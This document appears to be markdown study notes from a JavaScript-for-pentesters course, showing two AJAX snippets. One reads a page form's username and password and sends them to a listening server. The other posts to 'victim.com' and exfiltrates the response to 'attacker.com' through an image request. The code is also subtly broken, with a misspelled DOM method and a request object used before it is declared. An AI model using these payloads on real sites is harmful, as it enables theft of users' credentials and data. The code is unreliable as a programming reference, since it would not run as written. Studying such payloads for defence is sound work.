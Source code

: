 ### AJAX read response
```javascript
var username = document.forms[0].elements[0].value;
 
 var password = document.forms[0].elements[1].value;

 // handler to process the response
req.onreadystatechange = function () {
if (req.readyState == 4 && req.status == 200){

  // HTML received
  document.getElementsById("someid").innerHTML = req.responseText;
  }
}

 window.setTimeout(function(){
 
 var req = new XMLHttpRequest();

 req.open("GET", "http://localhost:8001/?username=" + username + "&password=" + password, true);

 req.send();
 }, 1000);
```

### AJAX POST Request
```javascript
function AJAXRequest(){
// handler to process the response
req.onreadystatechange = function () {
  if (req.readyState == 4 && req.status == 200){
  // HTML received
  new Image().src = "http://attacker.com/?data=" + req.responseText;
  }
}
  var req = new XMLHttpRequest();
  req.open("POST", "http://victim.com/", true);

  req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

  req.send("user=john");
}
```



## References

https://javabrains.io/courses/corejs_jsfordev/

https://javabrains.io/courses/corejs_scopesclosures/

https://javabrains.io/courses/corejs_objectsprototypes/

https://www.pentesteracademy.com/course?id=11
